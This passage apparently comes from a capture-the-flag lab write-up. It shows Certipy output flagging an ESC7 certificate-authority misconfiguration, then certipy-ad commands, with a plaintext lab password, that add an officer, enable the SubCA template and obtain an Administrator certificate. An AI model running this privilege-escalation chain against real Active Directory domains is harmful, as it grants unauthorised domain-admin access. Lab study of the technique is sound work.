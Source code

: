         Web Enrollment                      : Disabled
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Permissions
        Owner                             : INTERCEPT.VL\Administrators
        Access Rights
            Enroll                          : INTERCEPT.VL\Authenticated Users
            ManageCa                        : INTERCEPT.VL\ca-managers
                                            INTERCEPT.VL\Domain Admins
                                            INTERCEPT.VL\Enterprise Admins
                                            INTERCEPT.VL\Administrators
            ManageCertificates              : INTERCEPT.VL\Domain Admins
                                            INTERCEPT.VL\Enterprise Admins
                                            INTERCEPT.VL\Administrators
        [!] Vulnerabilities
        ESC7                              : 'INTERCEPT.VL\\ca-managers' has dangerous permissions
    Certificate Templates                   : [!] Could not find any certificate templates


im gonna use my tool for cooking it

commands

    certipy-ad ca -ca 'intercept-DC01-CA' -username 'Simon.Bowen@intercept.vl' -password 'b0OI_fHO859+Aw' -dc-ip '10.10.171.245' -add-officer  simon.bowen 

    certipy-ad ca -ca 'intercept-DC01-CA' -username 'Simon.Bowen@intercept.vl' -password 'b0OI_fHO859+Aw' -dc-ip '10.10.171.245' -enable-template SubCA

    certipy-ad req -username 'Simon.Bowen@intercept.vl' -password 'b0OI_fHO859+Aw' -dc-ip '10.10.171.245' -ca 'intercept-DC01-CA' -template SubCA -upn 'Administrator@intercept.vl' 

    certipy-ad ca -ca 'intercept-DC01-CA' -username 'Simon.Bowen@intercept.vl' -password 'b0OI_fHO859+Aw' -dc-ip '10.10.171.245' -issue-request 5  

    certipy-ad req -username 'Simon.Bowen@intercept.vl' -password 'b0OI_fHO859+Aw' -dc-ip '10.10.171.245' -ca 'intercept-DC01-CA' -retrieve 6                                 

and finally

    ➜  Intercept certipy-ad req -username 'Simon.Bowen@intercept.vl' -password 'b0OI_fHO859+Aw' -dc-ip '10.10.171.245' -ca 'intercept-DC01-CA' -retrieve 5
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Rerieving certificate with ID 5
    [*] Successfully retrieved certificate
    [*] Got certificate with UPN 'Administrator@intercept.vl'
    [*] Certificate has no object SID
    [*] Loaded private key from '5.key'
    [*] Saved certificate and private key to 'administrator.pfx'